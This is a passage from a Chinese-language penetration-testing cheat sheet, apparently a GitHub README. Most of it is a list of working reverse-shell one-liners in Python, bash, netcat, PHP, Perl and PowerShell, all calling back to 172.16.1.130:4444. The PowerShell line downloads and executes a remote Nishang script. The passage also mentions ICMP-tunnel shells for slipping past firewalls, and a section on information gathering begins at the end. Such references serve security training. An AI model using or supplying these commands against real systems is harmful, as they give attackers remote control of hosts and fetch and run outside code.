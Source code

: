 常用一句话反弹shell：

```sh
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.16.1.130",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'

bash -i >& /dev/tcp/172.16.1.130/4444 0>&1

nc 172.16.1.130 4444 -t -e /bin/bash

php -r '$sock=fsockopen("172.16.1.130",4444);exec("/bin/sh -i <&3 >&3 2>&3");'

perl -e 'use Socket;$i="172.16.1.130";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh \-i");};'


powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/9a3c747bcf535ef82dc4c5c66aac36db47c2afde/Shells/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp
\-Reverse -IPAddress 172.16.1.130 -port 4444
```

## ICMP隧道反弹shell

[工具GitHub](https://github.com/bdamele/icmpsh)

有时候防火墙可能对tcp进行来处理，然而对imcp并没有做限制的时候，可以使用icmp弹shell。

直接跑run.sh，就OK，在靶机下运行生成的命令。

# 5.信息收集

## 基本命令

### 查看当前网卡和IP信息：

可以看到通过查看网卡信息可以判断出当前机器是否在域内，以及是否是⼀台域机器

![image-20220317175559094](README/image-20220317175559094.png)
